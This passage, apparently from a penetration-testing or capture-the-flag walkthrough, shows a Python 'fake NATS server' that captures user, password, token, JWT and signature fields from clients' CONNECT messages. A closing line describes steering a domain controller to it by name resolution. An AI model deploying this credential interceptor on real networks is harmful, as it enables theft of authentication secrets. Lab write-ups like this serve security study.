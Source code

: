 ```python

        # Look for CONNECT command
        # Split by CRLF, process each line individually
        lines = decoded.split('\r\n')
        for line in lines:
            if line.startswith("CONNECT "):
                try:
                    json_part = line.split("CONNECT ", 1)[1]
                    creds = json.loads(json_part)
        
                    log(f"🔐 CONNECT PAYLOAD:\n{json.dumps(creds, indent=2)}")
        
                    for key in ["user", "pass", "auth_token", "jwt", "sig"]:
                        if key in creds:
                            log(f"🎯 {key.upper()} CAPTURED: {creds[key]}")
        
                except json.JSONDecodeError:
                    log(f"⚠️ Failed to parse CONNECT JSON: {line}")

        conn.send(b"+OK\r\n")
    except Exception as e:
        log(f"❌ Error with {addr}: {e}")
    finally:
        conn.close()
        log(f"🔌 Disconnected {addr[0]}:{addr[1]}")

def start_server():
    log(f"🚀 Fake NATS Server started on {HOST}:{PORT}")
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server:
        server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        server.bind((HOST, PORT))
        server.listen(10)
        log("📡 Waiting for connections...")

        while True:
            try:
                conn, addr = server.accept()
                threading.Thread(target=handle_client, args=(conn, addr), daemon=True).start()
            except KeyboardInterrupt:
                log("🛑 Server shutdown requested by user")
                break
            except Exception as e:
                log(f"⚠️ Server error: {e}")

if __name__ == '__main__':
    print("🎭 Mini NATS Credential Interceptor")
    print("=" * 40)
    start_server()
```

> Once the DC resolves **nats-svc** to our IP, it connects, authenticates, and we intercept credentials.

---